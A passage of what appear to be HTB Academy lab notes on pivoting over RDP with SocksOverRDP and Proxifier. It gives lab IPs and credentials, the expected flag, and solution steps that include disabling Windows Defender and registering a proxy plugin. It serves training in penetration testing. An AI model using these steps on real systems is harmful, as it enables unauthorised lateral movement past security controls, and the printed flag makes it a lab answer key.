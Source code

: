 ### **Step 12: Configure Proxification Rules**
```
# In Proxifier GUI:
1. Profile → Proxification Rules...
2. Default rule should route through SOCKS proxy
3. Verify all applications use proxy
4. Click OK to apply
```

---

## **7. HTB Academy Lab Exercise**

### **Lab Challenge**
**"Use the concepts taught in this section to pivot to the Windows server at 172.16.6.155 (jason:WellConnected123!). Submit the contents of Flag.txt on Jason's Desktop."**

### **Lab Environment**
- **Initial Target:** 10.129.42.198 (htb-student:HTB_@cademy_stdnt!)
- **Domain Controller:** 172.16.5.19 (victor:pass@123)
- **Final Target:** 172.16.6.155 (jason:WellConnected123!)
- **Flag Location:** Flag.txt on Jason's Desktop
- **Expected Flag:** `H0pping@roundwithRDP!`

### **Complete Lab Solution**

#### **Phase 1: Setup and Initial Connection**
```bash
# 1. Download tools on Pwnbox
wget https://github.com/nccgroup/SocksOverRDP/releases/download/v1.0/SocksOverRDP-x64.zip
wget https://www.proxifier.com/download/ProxifierPE.zip
unzip SocksOverRDP-x64.zip
unzip ProxifierPE.zip

# 2. RDP to initial Windows target
xfreerdp /v:10.129.42.198 /u:htb-student /p:HTB_@cademy_stdnt!
# Accept certificate: Y
```

#### **Phase 2: Pivot Host Configuration**
```powershell
# 3. Disable Windows Defender (GUI method)
# Windows Security → Virus & threat protection → Manage settings
# Turn OFF: Real-time protection, Cloud-delivered protection, Automatic sample submission

# 4. Transfer files via copy-paste
# Copy from Pwnbox: SocksOverRDP-Plugin.dll, SocksOverRDP-Server.exe, Proxifier PE folder
# Paste to Windows Desktop

# 5. Register SocksOverRDP plugin (as Administrator)
cd C:\Users\htb-student\Desktop
regsvr32.exe SocksOverRDP-Plugin.dll
# Click OK on success dialog
```
